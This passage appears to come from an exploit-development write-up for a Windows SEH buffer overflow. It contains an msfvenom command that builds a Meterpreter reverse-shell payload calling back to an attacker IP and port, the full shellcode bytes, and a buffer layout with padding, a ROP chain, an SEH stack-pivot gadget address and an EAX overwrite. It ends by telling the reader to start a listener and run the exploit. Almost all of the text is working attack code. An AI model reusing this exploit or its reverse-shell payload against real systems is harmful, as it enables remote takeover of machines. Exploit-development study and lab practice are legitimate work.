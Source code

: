 # msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.246.171 LPORT=31337 -f python -b '\x00\x3b'
#Payload size: 360 bytes
shellcode += "\xb8\x78\xdc\xf7\x67\xda\xc6\xd9\x74\x24\xf4\x5d\x29"
shellcode += "\xc9\xb1\x54\x31\x45\x13\x83\xc5\x04\x03\x45\x77\x3e"
shellcode += "\x02\x9b\x6f\x3c\xed\x64\x6f\x21\x67\x81\x5e\x61\x13"
shellcode += "\xc1\xf0\x51\x57\x87\xfc\x1a\x35\x3c\x77\x6e\x92\x33"
shellcode += "\x30\xc5\xc4\x7a\xc1\x76\x34\x1c\x41\x85\x69\xfe\x78"
shellcode += "\x46\x7c\xff\xbd\xbb\x8d\xad\x16\xb7\x20\x42\x13\x8d"
shellcode += "\xf8\xe9\x6f\x03\x79\x0d\x27\x22\xa8\x80\x3c\x7d\x6a"
shellcode += "\x22\x91\xf5\x23\x3c\xf6\x30\xfd\xb7\xcc\xcf\xfc\x11"
shellcode += "\x1d\x2f\x52\x5c\x92\xc2\xaa\x98\x14\x3d\xd9\xd0\x67"
shellcode += "\xc0\xda\x26\x1a\x1e\x6e\xbd\xbc\xd5\xc8\x19\x3d\x39"
shellcode += "\x8e\xea\x31\xf6\xc4\xb5\x55\x09\x08\xce\x61\x82\xaf"
shellcode += "\x01\xe0\xd0\x8b\x85\xa9\x83\xb2\x9c\x17\x65\xca\xff"
shellcode += "\xf8\xda\x6e\x8b\x14\x0e\x03\xd6\x70\xe3\x2e\xe9\x80"
shellcode += "\x6b\x38\x9a\xb2\x34\x92\x34\xfe\xbd\x3c\xc2\x01\x94"
shellcode += "\xf9\x5c\xfc\x17\xfa\x75\x3a\x43\xaa\xed\xeb\xec\x21"
shellcode += "\xee\x14\x39\xdf\xeb\x82\x6e\x30\x02\xf9\x07\x33\xea"
shellcode += "\x87\xbe\xba\x0c\x27\x11\xed\x80\x87\xc1\x4d\x71\x6f"
shellcode += "\x08\x42\xae\x8f\x33\x88\xc7\x25\xdc\x65\xbf\xd1\x45"
shellcode += "\x2c\x4b\x40\x89\xfa\x31\x42\x01\x0f\xc5\x0c\xe2\x7a"
shellcode += "\xd5\x78\x93\x84\x25\x78\x3e\x85\x4f\x7c\xe8\xd2\xe7"
shellcode += "\x7e\xcd\x15\xa8\x81\x38\x26\xaf\x7d\xbd\x1f\xdb\x4b"
shellcode += "\x2b\x20\xb3\xb3\xbb\xa0\x43\xe5\xd1\xa0\x2b\x51\x82"
shellcode += "\xf2\x4e\x9e\x1f\x67\xc3\x0a\xa0\xde\xb7\x9d\xc8\xdc"
shellcode += "\xee\xe9\x56\x1e\xc5\x6a\x90\xe0\x9b\x4e\x39\x89\x63"
shellcode += "\xce\xb9\x49\x0e\xce\xe9\x21\xc5\xe1\x06\x82\x26\x28"
shellcode += "\x4f\x8a\xad\xbc\x3d\x2b\xb1\x95\xe0\xf5\xb2\x19\x39"
shellcode += "\xe3\x3c\xde\xbe\x0c\xbf\xe3\x68\x35\xb5\x24\xa9\x02"
shellcode += "\xc6\x1f\x8c\x23\x4d\x5f\x82\x34\x44"


buffer = "A" * rop_offset                       # padding
buffer += create_rop_chain()
buffer += shellcode
buffer += "A" * (seh_offset - len(buffer))      # padding
buffer += "BBBB"                                # overwrite nSEH pointer
buffer += struct.pack("<I", 0x1002280a)         # overwrite SEH record with stack pivot (ADD ESP,1004 # RETN [ImageLoad.dll])
buffer += "A" * (eax_offset - len(buffer))      # padding
buffer += struct.pack("<I", 0xffffffff)         # overwrite EAX to always trigger an exception
buffer += "A" * (max_size - len(buffer))        # padding

{% endcodeblock %}

If everything went fine, we should get the meterpreter shell. Set the listener up and run the exploit.
